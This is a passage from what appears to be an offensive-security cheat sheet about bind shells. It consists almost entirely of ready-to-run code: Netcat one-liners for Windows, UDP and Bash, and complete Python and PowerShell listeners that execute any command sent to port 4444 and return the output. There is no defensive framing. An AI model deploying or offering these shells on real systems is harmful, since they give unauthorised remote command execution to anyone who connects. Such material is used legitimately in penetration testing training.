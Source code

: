 **Example (Netcat Windows):**
```powershell
nc.exe -lvp 4444 -e cmd.exe
```

## UDP Bind Shell
A **UDP bind shell** operates over UDP instead of TCP, making it more difficult to detect and filter.

**Example (Netcat UDP):**
```bash
nc -u -lvp 4444 -e /bin/sh
```

## Bash Bind Shell
A simple bind shell using Bash can be set up as follows:

```bash
bash -c 'exec nc -lvp 4444 -e /bin/sh'
```

## Python Bind Shell
Python allows for more flexible and scriptable bind shells.

```python
import socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.bind(("0.0.0.0",4444))
s.listen(1)
c,addr=s.accept()
while True:
    data=c.recv(1024)
    if not data: break
    proc=subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    stdout_value = proc.stdout.read() + proc.stderr.read()
    c.send(stdout_value)
c.close()
```

## PowerShell Bind Shell
PowerShell can be used to create a bind shell on Windows systems.

```powershell
$listener = [System.Net.Sockets.TcpListener]4444;
$listener.Start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
$reader = New-Object System.IO.StreamReader($stream);
$writer = New-Object System.IO.StreamWriter($stream);
while ($true) {
    $command = $reader.ReadLine();
    if ($command -eq "exit") { break; }
    $output = iex $command 2>&1 | Out-String;
    $writer.WriteLine($output);
    $writer.Flush();
}
$client.Close();
$listener.Stop();
```
